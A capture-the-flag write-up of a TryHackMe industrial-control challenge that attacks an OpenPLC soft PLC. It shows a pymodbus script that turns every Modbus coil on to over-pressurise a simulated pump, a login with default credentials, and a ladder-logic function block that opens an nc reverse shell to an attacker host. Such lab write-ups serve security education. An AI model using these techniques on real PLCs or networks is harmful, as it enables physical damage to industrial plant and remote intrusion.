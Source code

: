 # Kaboom: TryHackMe - Industrial Intrusion - Task 8

> **Solved by: StealthGuy**, **[Writeup by: StealthGuy](https://stealthguy.net/kaboomthm/kaboom/)**


![Description of image 1](./images/cover.png)

## Writeup

TL;DR: Crafting malicious Modbus packets and gaining a reverse shell by uploading a malicious PLC program.

```
This challenge drops you into the shoes of the APT operator: With a single crafted Modbus, you over-pressurise the main pump, triggering a thunderous blow-out that floods the plant with alarms. While chaos reigns, your partner ghosts through the shaken DMZ and installs a stealth implant, turning the diversion’s echo into your persistent beachhead.
```



### Part 1 - Modbus

The first part consists of causing an explosion in the facility's pumping system.
We begin with reconnaissance:


```bash
nmap -p- --open -sS --min-rate 5000 -v -n -Pn -oG fullscan 10.10.23.8

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
102/tcp   open  iso-tsap
502/tcp   open  mbap
1880/tcp  open  vsat-control
8080/tcp  open  http-proxy
44818/tcp open  EtherNetIP-2
```

The first thing I did was visit the website on port `80`. There was a video of a working pump. This webpage was populated using a script in the HTML that fetches data from `/api/state`.

![Description of image 1](./images/pump.png)

Next, I visited port `8080` and found an OpenPLC v3 login page. From previous experience with OpenPLC, I knew the default credentials are `openplc:openplc`, so I tried them—and they worked.

Then I checked out port `1880`, which showed a Node-RED login page. However, I couldn't access it.

I then turned my attention to ports `502`, `102`, and `44818`, which are commonly used in the OT (Operational Technology) domain—specifically, Modbus TCP, Siemens S7 (proprietary), and Ethernet/IP (Rockwell), respectively.

OpenPLC typically communicates via Modbus TCP because it's open and widely supported. While OpenPLC does support S7 and Ethernet/IP through additional libraries, Modbus is the easiest to interact with. So, I began inspecting the Modbus interface.

Modbus primarily uses the concept of "coils." Coils are boolean variables (ON/OFF). To explode the pump, I had the idea to turn all the coils ON.

To do this, I connected to the PLC on port `502` using a Python library called `pymodbus`, which enables Modbus communication:

```bash
pip install pymodbus
```

The script I wrote:

```python
from pymodbus.client import ModbusTcpClient
import requests
import time

# IP of the PLC
PLC_IP = "10.10.180.166"

# Modbus TCP port (default: 502)
MODBUS_PORT = 502

# Connect to the PLC over Modbus TCP
client = ModbusTcpClient(PLC_IP, port=MODBUS_PORT)
connection = client.connect()

if connection:
    print("Connected to PLC on Modbus TCP.")
    coil = 0
    while True:
        print(f"Attempting to writing to coil at address {coil}...")
        result = client.write_coil(coil, True)  # True means ON (1)
        
        if result:
            print(f"Successfully write to coil at address: {coil}.")
        else:
            print(f"Failed to write to coil at address {coil}.")
        
        time.sleep(2)
        
        # Verify the status of the coil after writing (check if it's ON)
        status = client.read_coils(coil, count=1) 
        print(requests.get(f"http://{PLC_IP}/api/state").text)  # fetch the api to see if the pump exploded
        print(f"Coil at address {coil} status: {status.bits[0]}")  # 1 means ON, 0 means OFF
        coil += 1 
    
else:
    print("Failed to connect to PLC on Modbus TCP.")

# Close the connection
client.close()
```
Note: I used `requests` to poll the `/api/state` endpoint to see if the pump's state changed.

Script output:

```
Coil at address 8 status: True
Attempting to open the gate by writing to coil at address 9...
Successfully opened the gate at address 9.
{
  "status": "Cooling OFF, Low Temperature",
  "video": "normal"
}

Coil at address 9 status: True
Attempting to open the gate by writing to coil at address 10...
Successfully opened the gate at address 10.
{
  "status": "Explosion Detected!",
  "video": "explodedflag23"
}
```
After reloading `MACHINE_IP:80`, the first flag appeared in the video.


![Description of image 1](./images/flag1.png)


### Part 2 - Reverse Shell


Now we’re asked for another flag, referred to as the **Ubuntu flag**. Here's where things get interesting.

OpenPLC is a *soft PLC*, meaning it runs as software on a general-purpose machine (often Ubuntu) rather than as dedicated hardware. Soft PLCs are typically used for learning and simulation because they lack the real-time guarantees required in industrial environments.

OpenPLC consists of two parts: the **Runtime** and the **Editor**. On port `8080`, we saw the OpenPLC **Runtime** login interface (which accepted default credentials), so it's reasonable to assume OpenPLC is running on an Ubuntu machine.

But how do we access the underlying file system via the OpenPLC dashboard?

The OpenPLC dashboard allows enabling/disabling protocols and, more importantly, uploading PLC programs. Which of these features could be exploited?

At first, I managed to trigger a Flask error using the "Run" button in the dashboard. Since Flask was running with `debug_mode=True`, I explored command injection opportunities—but found none.

I searched for known RCE vulnerabilities in OpenPLC Runtime, but came up empty. Then I focused on the program upload feature and realized this might not be a typical web challenge—it’s about **getting a reverse shell** via PLC programming.

As mentioned earlier, OpenPLC supports the IEC 61131 standard, which defines industrial programming languages like Ladder Diagram (LD), Structured Text (ST), etc. What if we could embed a reverse shell into the PLC program?

**Can you write a reverse shell in Ladder Logic?**

Yes! Thanks to this excellent article: [Snakes and Ladder Logic](https://www.pentestpartners.com/security-blog/snakes-and-ladder-logic/)

In short: you can create a **custom Function Block** that executes a reverse shell, and call it from your PLC program—a real backdoor.

In the article example, the shell is triggered when a button is pressed. In our case, since nothing is wired to our Soft PLC, we trigger it automatically.

I remembered that installing the OpenPLC Editor on Linux was pretty messy, and since I was in a hurry, I asked my friend Davide (thanks Davide!) to install it on his Windows PC. Then we completed the challenge together.

We created a new Ladder Diagram project, wrote a custom Function Block, and embedded it in the main program.

Payload screenshots:


![Description of image 1](./images/function_block.webp)

![Description of image 1](./images/program_LD.webp)

Since nothing is wired to this PLC, our ladder logic simply consists of the Function Block placed between the power rails—it runs unconditionally.

The code we used (adapted from the article) was:

```sh
IF (exe = TRUE) THEN
  {system("mknod /tmp/pipe p");}
  {system("/bin/sh 0</tmp/pipe | nc <IP_ADDRESS> <PORT> 1>/tmp/pipe");}
  done := TRUE;
  return;
END_IF;
done := FALSE;
return;
```

After compiling it to a `.st` file (using the orange arrow button in the toolbar), we uploaded `rev_shell.st` via the OpenPLC Runtime dashboard.

> ⚠️ **Warning:** Don’t forget to start your **listener!**

Finally, we clicked the "RUN PLC" button—and we had a reverse shell.

![Description of image 1](./images/reverse_runtime.png)

We can now navigate the Ubuntu filesystem and retrieve the flag located at `/home/ubuntu/flag.txt`.

![Description of image 1](./images/ubuntu_shell.png)


## Conclusion

I found this challenge extremely interesting because I really like to experiment with resolving "strange" challenges that differ from the usual categories. I've always been curious aubout OT (Operational Technology), which differs from IT technologies but shares some common security flaws. In future CTFs, I would like to dive deeper into OT technologies and better understand the differences and connections between IT security and OT security, while continuing to learn and apply my skills about this topic.





